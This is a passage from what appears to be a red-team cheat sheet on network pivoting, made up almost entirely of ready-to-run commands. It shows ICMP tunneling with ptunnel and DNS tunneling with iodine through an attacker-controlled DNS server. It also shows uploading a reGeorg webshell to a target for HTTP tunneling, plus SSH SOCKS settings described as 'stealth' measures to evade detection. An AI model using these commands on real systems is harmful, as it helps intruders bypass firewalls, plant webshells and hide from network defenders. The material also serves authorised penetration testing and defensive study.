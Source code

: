 
## Advanced Pivoting Techniques

### 1. ICMP Tunneling
```bash
# Using ptunnel (if ICMP allowed through firewall)
# On pivot server:
sudo ptunnel -x password

# On attacker:
sudo ptunnel -p pivot_server -lp 8080 -da internal_target -dp 80 -x password
```

### 2. DNS Tunneling
```bash
# Using iodine (if DNS queries allowed)
# On attacker (DNS server):
sudo iodined -f -c -P password 10.0.0.1 tunnel.example.com

# On pivot:
sudo iodine -f -P password tunnel.example.com
```

### 3. HTTP Tunneling
```bash
# Using reGeorg
# Upload reGeorg webshell to web server
# Create tunnel:
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php

# Configure proxychains
echo "socks5 127.0.0.1 8080" >> /etc/proxychains4.conf
```

## Traffic Analysis and OpSec

### 1. Monitoring Tunnel Traffic
```bash
# Monitor SOCKS proxy connections
netstat -tlnp | grep 9050
ss -tlnp | grep 9050

# Check active SSH tunnels
ps aux | grep ssh
lsof -i :9050
```

### 2. Stealth Considerations
```bash
# Use non-standard ports
ssh -f -N -D 8443 -p 2222 user@pivot

# Compress traffic
ssh -f -N -D 9050 -C user@pivot

# Keep connection alive
ssh -f -N -D 9050 -o ServerAliveInterval=60 user@pivot

# Bind to localhost only (more stealthy)
ssh -f -N -D 127.0.0.1:9050 user@pivot
```

